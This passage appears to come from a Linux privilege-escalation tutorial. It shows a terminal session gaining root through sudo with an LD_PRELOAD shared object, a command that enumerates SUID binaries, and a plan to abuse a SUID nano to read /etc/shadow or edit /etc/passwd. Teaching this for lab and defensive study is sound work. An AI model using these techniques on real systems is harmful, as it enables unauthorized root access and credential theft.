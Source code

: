 ```bash
user@debian:~/ldpreload$ id
uid=1000(user) gid=1000(user) groups=1000(user), 24(cdrom), 25(floppy), 29(audio), 30(dip), 44(video), 46(plugdev)
user@debian: ~/ldpreload$ whoami
user
user@debian:~/ldpreload$ sudo LD_PRELOAD=/home/user/ldpreload/shell.so find root@debian:/home/user/ldpreload# id
uid-0(root) gid-0(root) groups=0(root)
root@debian:/home/user/ldpreload# whoami
root
root@debian:/home/user/ldpreload#
```

### SUID

Much of Linux privilege controls rely on controlling the users and files interactions. This is done with permissions. By now, we know that files can have read, write, and execute permissions. These are given to users within their privilege levels. This changes with **SUID** (Set-user Identification) and **SGID** (Set-group Identification). These *allow files to be executed with the permission level of the file owner or the group owner*, respectively.

You will notice these files have an “**s**” bit set showing their special permission level.

`find / -type f -perm -04000 -ls 2>/dev/null` will list files that have SUID or SGID bits set.

```bash
$ find / -type f -perm -04000 -ls 2>/dev/null
       66     40 -rwsr-xr-x   1 root     root        40152 Jan 27  2020 /snap/core/10185/bin/mount
       80     44 -rwsr-xr-x   1 root     root        44168 May  7  2014 /snap/core/10185/bin/ping
       81     44 -rwsr-xr-x   1 root     root        44680 May  7  2014 /snap/core/10185/bin/ping6
       98     40 -rwsr-xr-x   1 root     root        40128 Mar 25  2019 /snap/core/10185/bin/su
      116     27 -rwsr-xr-x   1 root     root        27608 Jan 27  2020 /snap/core/10185/bin/umount
     2610     71 -rwsr-xr-x   1 root     root        71824 Mar 25  2019 /snap/core/10185/usr/bin/chfn
     2612     40 -rwsr-xr-x   1 root     root        40432 Mar 25  2019 /snap/core/10185/usr/bin/chsh
     2689     74 -rwsr-xr-x   1 root     root        75304 Mar 25  2019 /snap/core/10185/usr/bin/gpasswd
     2781     39 -rwsr-xr-x   1 root     root        39904 Mar 25  2019 /snap/core/10185/usr/bin/newgrp
     2794     53 -rwsr-xr-x   1 root     root        54256 Mar 25  2019 /snap/core/10185/usr/bin/passwd
     2904    134 -rwsr-xr-x   1 root     root       136808 Jan 31  2020 /snap/core/10185/usr/bin/sudo
```

Example:

The SUID bit set for the nano text editor allows us to create, edit and read files using the file owner’s privilege. Nano is owned by root, which probably means that we can read and edit files at a higher privilege level than our current user has. At this stage, we have two basic options for privilege escalation: reading the `/etc/shadow` file or adding our user to `/etc/passwd`.

Below are simple steps using both vectors.
